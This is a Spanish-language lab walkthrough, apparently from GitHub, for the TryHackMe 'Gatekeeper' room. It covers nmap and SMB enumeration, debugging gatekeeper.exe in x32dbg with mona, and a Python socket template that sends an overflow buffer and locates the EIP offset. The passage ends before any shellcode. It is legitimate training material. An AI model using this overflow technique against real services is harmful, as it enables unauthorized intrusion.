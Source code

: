 # Introducción

En nuestra máquina Kali, instala openvpn: ```sudo apt install openvpn``` y su archivo de configuración de vuestro perfil de Tryhackme.

Nos conectamos mediante el siguiente comando: ```sudo openvpn tu_archivo.ovpn```

Ve al laboratorio en cuestión: https://tryhackme.com/room/gatekeeper y empieza la máquina.

![78a8f36c1dfb9abfbd0ea95082f82e26](https://user-images.githubusercontent.com/107146199/172962055-32a9ff9e-2528-4721-8b81-013d03a336d3.png)

Cuando tengas la IP estaremos listos.

## Preparativos

Ejecutamos un nmap de la siguiente manera: ```nmap -sC -sV -T5 -vv 10.10.250.223```

```-sC y -sV```: usados conjuntamente nos brinda la oportunidad de ver los scripts genéricos y sus respectivas versiones.

```-T5```: aumentamos la velocidad de procesos (threads), siendo 1 la forma más silenciosa y 5 la forma más ruidosa.

```-vv```: básicamente nos muestra más detalladamente lo obtenido, filtrando más información.

El nmap en cuestión nos muestra lo siguiente:

![e880a4ef64ebf0e08c6656dc61a17bd5](https://user-images.githubusercontent.com/107146199/172963242-3c289a4f-b537-4ee5-9e50-2df147315774.png)

Vemos que los puertos 139 y 445 están abiertos y sabemos que pertenecen a un servidor samba(protocolo para compartir archivos en red de windows).

Usemos el siguiente comando para ver si nos esconde algo el dicho servidor: ```smbclient -L //ip_máquina```

![517691e16395fedee413927be0d8efaa](https://user-images.githubusercontent.com/107146199/172963685-1c0faeac-db62-4261-baf4-964658853ee6.png)

Listando vemos lo siguiente, indaguemos en el directorio ```Users``` de la siguiente manera: ```smbclient //ip_máquina/Users```

![b23e96e662bba04896995c785eba342e](https://user-images.githubusercontent.com/107146199/172963834-7317cea9-3e9c-464b-a6ef-b0224a470d04.png)

El directorio ```Share``` resulta interesante, entremos en ella y veamos que tenemos.

![5c651412f9761d7f415d7fcab01ba848](https://user-images.githubusercontent.com/107146199/172964005-460e517d-0509-43cc-8619-fe1eca44ec72.png)

¡Bingo! Tenemos un posible programa vulnerable, descarguémoslo. De momento tenemos todo lo que necesitamos, vayamos al siguiente paso.

# Haciendo uso de x32dbg

Vámonos a nuestra máquina virtual de Windows, y descarga el siguiente programa: https://github.com/therealdreg/x64dbg-exploiting

Transfiere el archivo de nuestra máquina Kali a nuestra máquina Windows y empecemos. Abre x32dbg y el gatekeeper.exe desde el mismo. Una vez abierto, haz clic varias veces hasta que el programa esté en total ejecución.

![08531916ff9c374b071a9296ae1b2aa5](https://user-images.githubusercontent.com/107146199/172964817-73b5c257-9849-40d9-9395-cdd16d232e05.png)

Debe quedar tal que así. ¡Estamos listos para explotar el programa!

## Explotando gatekeeper.exe

Antes de empezar, siempre que hagamos un reinicio a nuestro Windows debemos introducir la siguiente línea de comandos en nuestro x32dbg:

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```

Así evitamos problemas previos a nuestro trabajo.

Empecemos creando nuestro script en python, dejo la siguiente plantilla:

```
import socket

ip = "127.0.0.1"
port = 31337

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Investigando un poco vemos que uno de los puertos que encontramos anteriormente (el 31337) en nuestro nmap está ejecutando ```gatekeeper.exe```.

Vamos a ir explotando a través de conexiones en nuestra red local (127.0.0.1), más adelante explotaremos la máquina en cuestión pero de momento empezaremos por aquí.

Primero de todo, creamos un patrón cíclico, de 2000. En nuestro x32dbg ve a la pestaña ```logs``` y ejecuta lo siguiente: ```mona.mona("pattern_create 2000")```

![51ab4c3a4f295f20c37212f1f8b22bd5](https://user-images.githubusercontent.com/107146199/172966719-d19f1b9c-bf15-4822-94a7-65db633e0f77.png)

Copiamos el patrón en nuestro script en la línea de ```payload``` tal que así:

![b8f1a0575f80fa5fa2eb9f0ed4d36611](https://user-images.githubusercontent.com/107146199/172966823-5b4f3b08-9922-4c3f-852f-834087db7c2e.png)

¡Ojo! Ten cuidado y revisa que nuestro patrón esté entre comillas. Guarda nuestro script como ```gatekeeper.py``` y en una ```cmd``` ejecútalo con python3: ```python3 gatekeeper.py```. Revisa nuestro x32dbg, si este aún no ha recibido la información de nuestro script prueba varias veces hasta que llegue.

![afff93bd6f9824e4cc040072f49745ff](https://user-images.githubusercontent.com/107146199/172967227-fcdf8b28-3e8e-48a7-91b5-860a0add30c1.png)

Una vez aparezca nuestro patrón, revisamos EIP(puntero de instrucciones extendido, en definitiva le dice al programa dónde ir para ejecutar el siguiente comando), apuntamos el valor de EIP: ```39654138```

Hacemos una búsqueda del mismo con el siguiente comando: ```mona.mona("pattern_offset 39654138")```

![34e841c2a7b3e750dd8577106aaa6563](https://user-images.githubusercontent.com/107146199/172967886-59d4ca4d-1671-461c-8a27-08c79c98ff30.png)

¡Listo! Necesitamos 146 bytes para llegar al inicio de EIP(en nuestro caso usaremos A para rellenar), aparte de esto rellenaremos dicho EIP(retorno) con 4 bytes(en nuestro caso usaremos B para distinguir mejor y comprobar con exactitud que estamos en el punto previo al stack del programa ```(ESP)```.








